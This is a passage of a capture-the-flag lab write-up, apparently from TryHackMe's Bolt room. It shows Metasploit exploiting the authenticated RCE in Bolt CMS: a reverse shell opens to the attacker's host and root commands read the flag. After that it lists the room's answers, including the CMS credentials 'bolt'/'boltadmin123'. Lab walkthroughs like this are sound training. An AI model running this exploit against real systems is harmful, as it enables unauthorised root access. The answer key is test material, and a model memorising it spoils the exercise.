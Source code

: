 ```


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.
```

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.18.72.222:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "goxmdd".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file ubarzzmqcgc.php.
[+] Deleted file blwtcrohf.php.
[+] Used token b9177f20deed265f891752d759 to create ffdqnvgwft.php.
[*] Attempting to execute the payload via "/files/ffdqnvgwft.php?goxmdd=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.18.72.222:4444 -> 10.10.118.161:47724) at 2023-08-10 03:56:24 -0400
[+] Deleted file ffdqnvgwft.php.
[+] Reverted user profile back to original state.

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
find / -name flag.txt 2>/dev/null
/home/flag.txt
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

Answer the questions below

What port number has a web server with a CMS running?

8000

What is the username we can find in the CMS?

bolt

What is the password we can find for the username?

boltadmin123
